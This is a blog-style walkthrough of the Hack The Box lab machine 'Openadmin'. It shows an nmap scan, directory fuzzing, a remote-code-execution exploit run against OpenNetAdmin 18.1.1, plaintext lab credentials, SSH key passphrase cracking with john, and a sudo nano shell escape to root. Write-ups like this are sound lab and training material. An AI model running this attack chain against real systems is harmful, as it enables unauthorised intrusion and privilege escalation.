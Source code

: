 ```yaml
---
date: 2020-05-17 06:52:37
layout: post
title: "Openadmin"
subtitle: Hackthebox
description:
image:
optimized_image:
category: Hackthebox
tags:
author:
paginate: false
---
```


Starting with the nmap scan,
```bash
nmap -T4 -p- -A 10.10.10.171
```
Found 2 open ports.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   470.80 ms 10.10.14.1
2   455.86 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.60 seconds
```
Opening the website hosted at port 80.We get a default apache2 page.
Fuzzing for directories and pages 
```bash
ffuf -w wordlist -u http://10.10.10.171/FUZZ -e .php,.html
```
We get a directory **/music** and **/ona**.
![placeholder](/writeup/assets/img/openadmin/music.png "website")
Music directory contains a fine website and the ona directory contains the OpenNetAdmin panel.
![placeholder](/writeup/assets/img/openadmin/panel.png "ona")

The version of opennetadmin is 18.1.1 which is vulnerable to a remote code execution exploit.
![placeholder](/writeup/assets/img/openadmin/ona.png "exploit")

Using the exploit we get a shell.
```bash
exp.sh http://10.10.10.171/ona/
```
![placeholder](/writeup/assets/img/openadmin/shell.png "shell")

Eumerating thorugh the machine we get a file */var/www/ona/local/config* which contains password for suer jimmy.

**jimmy:n1nj4W4rri0R!**

Inside the /var/www directory, we get a direcctory named Internal . index.php isnide the internal directory contains a username jimmy and a hash which on reverse lookup comes to be **Revealed**.
Looking for open ports
```bash
netstat -tulpn
``` 
![placeholder](/writeup/assets/img/openadmin/ports.png "ports")
We found 1 unusual port 52846.
Maybe a site is hosted internally as it seems to be by the name of directory and the open port 52846.

Inside /etc/apache2/sites_enabled, we get three conf file, one among which states that a site is being operated internally.
```conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htbbloodninjas
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
Let's connect and see what can we get.
Since we know by looking in the files inside Internal directory tht index.php will be used to login and then main.php will show the ssh private key of user joanna.

```bash
curl -s http://127.0.0.1:52846/index.php -c cookie -d “username=jimmy&password=Revealed”
# -c is used to store session data in a cookie named cookie
# -d holds the data to provided in login form
```
and then
```bash
curl  -s http://127.0.0.1:52846/main.php -b cookie
#-b to fetch the cookie named cookie
```
We get the ssh private key for user joanna.
Cracking the key with john shows the passphrase **bloodninjas**
```bash
$ ssh2john.py priv_key > hash
$ john --wordlist=rockyou.txt hash
```
Got the joanna's shell as well as user.txt.

```bash
sudo -l
```
![placeholder](/writeup/assets/img/openadmin/sudo.png "sudo")
This shows that we can open /opt/priv by nano with root privileges.

Time for GTFObins.

Got the command needed to escalate our privileges
Open the file /opt/priv with root privileges as stated in sudoers file 
```bash
sudo /bin/nano /opt/priv 
```
Now ***Ctrl+R*** then ***Ctrl+X***
We will get tab at bottom to write command to execute. Type 
***reset; sh 1>&0 2>&0*** 

Got the root shell and the root.txt.


